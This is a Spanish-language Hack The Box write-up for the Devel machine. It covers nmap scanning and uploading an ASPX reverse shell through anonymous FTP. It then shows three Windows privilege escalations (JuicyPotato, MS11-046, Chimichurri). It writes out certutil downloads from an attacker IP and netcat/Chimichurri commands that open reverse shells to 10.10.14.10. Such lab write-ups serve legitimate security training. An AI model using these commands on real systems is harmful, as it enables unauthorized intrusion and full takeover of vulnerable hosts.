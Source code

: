 #  DEVEL MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/1.png)

## INDEX

- [[#ESCANEO Y ENUMERACION|ESCANEO Y ENUMERACION]]
- [[#EXPLOTACION|EXPLOTACION]]
- [[#ELEVACION DE PRIVILEGIOS|ELEVACION DE PRIVILEGIOS]]


## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```
nmap -p- --open -T5 - v -n 10.10.10.5 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/2.png)

Vamos a realizar una enumeracion de los servicios en los puertos:

```
nmap -p21,80 -sV -sC 10.10.10.5 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/3.png)

## EXPLOTACION

Vemos el puerto 21 FTP con usuario anonymous habilitado es decir que si nos conectamos con el **username: anonymous** y colocamos cualquier password entrariamos:

```bash
ftp 10.10.10.5
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/4.png)

vemos que tiene ciertos archivos que talvez lo estamos viendo desde la pagina web, hay una conexion entrer el FTP y el servidor web, veamos la pagina web:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/5.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/5.png)

nos indica la version de IIS que usa (7.5), si vemos en el FTP se encuentra la imagen de la pagina por lo que podemos intuir que si podemos cargar archivos podemos verlos desde la pagina web.

probemos si podemos subir un archivo, creamos uno de prueba y nos conectamos como anonymous en la misma ruta del archivo y haces un **PUT** desde el ftp:

```bash
echo "hola mundo" > test.txt
```

```bash
put test.txt
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/7.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/8.png)

vemos que si podemos cargar archivos. IIS usa archivos de extension asp y aspx, vamos a probar con aspx por la version.

encontre este exploit en github: [https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx) solo debemos cambiar la IP y el puerto al que estaremos a la escucha:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/9.png)

una vez modificado el exploit lo cargamos por FTP, nos colocamos a la escucha y lo apuntamos desde la pagina web:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/10.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/11.png)

vemos que ingresamos pero no podemos acceder a la carpeta de los usuarios:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/12.png)

tocara elevar privilegios para ver las flags.

## ELEVACION DE PRIVILEGIOS

Hay tres formas de elevar privilegios:

**METODO 1**

si vemos los privilegios del usuario:

```bash
whoami /priv
```

tiene el SEimpersonate habilitado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/13.png)

Podemos usar el juicypotato, primero descargamos el binario: [https://github.com/ohpe/juicy-potato/releases/tag/v0.1](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)

por si da error aca el de 32 bits: [https://github.com/ivanitlearning/Juicy-Potato-x86/releases](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)

y descargamos el binario de netcat: [https://github.com/int0x33/nc.exe/pulse](https://github.com/int0x33/nc.exe/pulse)

en la maquina windows nos vamos a una ruta donde podamos escribir:

```bash
cd c:\Users\Public\Documents
```

nos montamos un servidor en python donde se encuentra el juicypotato y el netcat:

```bash
python -m SimpleHTTPServer
```

y pasamos los binarios a la maquina windows, desde windows ejecutamos:

```bash
certutil.exe -f -urlcache -split http://10.10.14.10:8000/jp86.exe jp86.exe

certutil.exe -f -urlcache -split http://10.10.14.10:8000/nc.exe nc.exe
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/14.png)

ahora ejecutamos el juicypotato de la siguiente manera:

```bash
jp86.exe -l 1337 -p c:\users\public\documents\nc.exe -a "-e cmd 10.10.14.10 4545" -c CLSID -t *
```

* -l: lo dejamos por defecto
* -p: que queremos ejecutar como SYSTEM
* -a: argumentos de lo que queremos ejecutar
* -t: lo dejamos por defecto asi
* -c: el CLSID por sistema operativo.

Para saber ante que sistema operativo estamos podemos hacer un:

```bash
systeminfo
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/15.png)

ahora sobre ese resultado buscamos el CLSID que corresponda aqui:

[https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)

me funciono este: **{659cdea7-489e-11d9-a9cd-000d56965251}**

```bash
jp86.exe -l 1337 -p c:\users\public\documents\nc.exe -a "-e cmd 10.10.14.10 4545" -c "{659cdea7-489e-11d9-a9cd-000d56965251}" -t *
```

como estamos llamado a netcat, antes de ejecutar, nos colocamos a la escucha por el 4545 y al ejecutarlo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/16.png)

elevamos privilegios, ahi las flags:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/17.png)

**METODO 2**

vamos a buscar un exploit para la version del sistema operativo ya que en el systeminfo vimos que es un windows 7 y es un poco antiguo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/15.png)

si buscamos en google vemos que es el **MS11-046**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/18.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/19.png)

vamos a buscarlo como **MS11-046**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/20.png)

vemos en el repo un binario lo pasamos a la maquina windows:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/21.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/22.png)

lo ejecutamos y miren quien somos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/23.png)

**METODO 3**

Uso de **chimichurri.exe** este es un exploit para elevar privilegios localmente y afecta a versiones Windows 2008 R1 & R2, Windows Vista y Windows 7.

cuando te topes con alguno de ellos no esta demas probarlo.

lo descargamos de aca [https://github.com/Re4son/Chimichurri](https://github.com/Re4son/Chimichurri)

lo pasamos a la maquina windows y lo ejecutamos:

```bash
chimichurri.exe ip_attacker port
```

```bash
chimichurri.exe 10.10.14.10 4545
```

nos colocamos a la escucha con netcat en ese puerto y miren quien somos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/24.png)
